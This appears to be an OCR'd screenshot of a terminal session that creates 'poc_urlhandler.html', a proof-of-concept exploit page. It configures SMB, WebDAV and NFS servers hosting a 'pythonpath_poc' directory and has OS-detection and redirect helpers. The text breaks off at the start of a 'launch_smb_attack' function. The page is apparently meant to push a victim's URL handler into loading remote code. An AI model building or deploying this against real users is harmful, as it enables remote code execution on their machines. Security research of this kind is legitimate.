 ```html
% mkdir www                                                

% cd www

% cat > poc_urlhandler.html
<html>
<head>

  <script>

    // BEGIN GLOBAL CONFIG

    var smb_server = "172.18.0.4";
    var smb_share_name = "smbroot"
    var smb_directory_name = "pythonpath_poc"

    var webdav_server = "172.18.0.4";
    var webdav_port = "8888";
    var webdav_directory_name = "pythonpath_poc"

    var nfs_server = "172.17.16.134"
    var nfs_export_name = "nfs/pub"
    var nfs_directory_name = "pythonpath_poc"

    // END GLOBAL CONFIG

    function log_major(message) {
      const log_box = document.getElementById("log_box");
      if (log_box.innerHTML) {
        log_box.innerHTML = log_box.innerHTML + "\n[+] " + message;
      } else {
        log_box.innerHTML = "[+] " + message;
      }
    }

    function log(message) {
      const log_box = document.getElementById("log_box");
      if (log_box.innerHTML) {
        log_box.innerHTML = log_box.innerHTML + "\n" + message;
      } else {
        log_box.innerHTML = message;
      }
    }

    function detect_os() {
      const os_list = ["win", "mac", "linux"];
      for (var i = 0; i < os_list.length; i++) {
        if (window.navigator.platform.toLowerCase().indexOf(os_list[i]) == 0) {
          return os_list[i];
        }
      }
      return "unknown";
    }

    function redirect(uri) {
      log("Redirecting to " + uri + " in 3 seconds");
      setTimeout(function(uri) {
        document.location = uri;
      }, 3000, uri);
    }

    function launch_smb_attack() {
```